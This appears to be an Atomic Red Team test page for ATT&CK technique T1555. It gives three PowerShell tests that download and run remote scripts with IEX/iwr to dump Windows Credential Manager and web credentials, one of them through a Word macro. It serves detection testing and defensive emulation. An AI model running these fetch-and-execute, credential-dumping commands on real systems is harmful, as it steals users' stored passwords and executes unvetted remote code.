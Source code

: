 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications that store passwords to make it easier for users manage and maintain. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
